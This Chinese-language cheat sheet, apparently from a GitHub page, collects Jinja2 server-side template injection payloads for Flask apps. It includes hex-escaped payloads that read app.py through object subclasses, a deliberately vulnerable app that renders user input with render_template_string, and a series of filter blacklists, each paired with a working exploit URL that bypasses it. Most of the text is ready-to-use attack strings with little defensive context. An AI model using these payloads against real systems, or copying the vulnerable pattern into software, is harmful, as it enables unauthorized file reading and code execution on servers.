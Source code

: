 # Flask Bypass 进阶

这里总结一些过滤和绕过的手法。  

### Sheet 1

### 绕过  _  .  '这三个

有一种写法，在模板注入时可以使用，但正常的python语法是不支持的。  

在模板注入过程中，下面两种写法是等价的。

```python
{{"".__class__}}
{{""["\x5f\x5fclass\x5f\x5f"]}}
```

> "\x5f"是字符 ”_“，”\x2E"是字符 "."。

那么，读取文件可以这样写（_frozen_importlib_external.FileLoader'的get_data()方法，第一个是参数0，第二个文件名）

```python
{{""["\x5f\x5fclass\x5f\x5f"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "app\x2Epy")}}
#也就是
{{"".__class__.__bases__[0].__subclasses__()[91].get_data(0,"app.py")}}
```

## Sheet 2

[论文链接](https://0day.work/jinja2-template-injection-filter-bypasses/)  

简单的Flask程序示例：  

```python
import os #We need that to facilitate the RCE. Otherwise one needs to run {{config.from_object("os")}} first.
from flask import Flask, render_template, render_template_string, request
app = Flask(__name__)
@app.route("/")

def index():
    exploit = request.args.get('exploit')
    rendered_template = render_template("app.html", exploit=exploit)
    print(rendered_template)
    return render_template_string(rendered_template)
if __name__ == "__main__":
    app.run(debug=True)
```

对应的模板：  

```python
{# $>cat templates/app.html #} 
{{exploit}} 
```

### a.绕过 '__'

过滤举例

```python
exploit = request.args.get('exploit')
    print exploit

    blacklist = ["_"]
    for bad_string in blacklist:
        if  bad_string in exploit:
            return "HACK ATTEMPT {}".format(bad_string), 400
```

除了`request.__class__`，还可以用request.["_\_class_\_"]这种写法，即数组+字典下标的方式。但是仅使用这个方法是不行的，因为在render的时候就已经进行了对引号的转义，并且黑名单中的字符仍然存在。  

注意到request变量可以访问所有我们提交上去的变量，可以使用`request.args.<param>`的语法，再传入一个\<param\>来构造变量。  

这样就获得了一个绕过的方法：

+ EXP:`/?exploit={{request[request.args.pa]}}&pa=**class**`

### b.绕过'request[request.'

```python
blacklist = ["__","request[request."]
```

Jinja有类似Linux管道机制的语法，即'|'符号。  

利用此语法加上attr()方法，就可以达到在方括号中书写属性名称一样的效果。  

`request | attr(request.args.a)`等价于`request["a"]`    

+ EXP:`/?exploit={{request|attr(request.args.pa)}}&pa=**class**`

### c.绕过'_\_class_\_'

```python
blacklist = ["__","request[request.","__class__"]
```

使用管道+join方法，可以进行字符串的拼接操作。  

`["a","b","c"]|join`等价于`abc`。  

+ EXP:`/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_`

这段的执行步骤是：

1. 带入变量`{{request|attr(["_"*2,"class","_"*2]|join)}}`

2. 调用join方法`{{request|attr("_\_class_\_")}}`

3. 调用attr方法`{{request._\_class_\_}}`

### d.绕过'[' 和 ']'

```python
blacklist = ["__","request[request.","__class__",'[',']']
```

可以使用元组`('a','b','c')`的方式给`join`传递参数，这样既可绕过方括号。只要把上一个EXP的方括号替换成圆括号即可，不过还有一个更优雅的方案。  

使用 `.getlist()`方法得到一个列表，这个列表的参数可以在后面传递，具体示例请看EXP  

EXP:`/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_`

### e.绕过"|join"

```python
blacklist = ["__","request[request.","__class__",'[',']',"|join"]
```

使用管道+format方法，用格式化字符串生成被过滤的字串。  

EXP:`/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_`  

这里f作为格式化字符串，其中的`%s`被`a='_'`替换。  
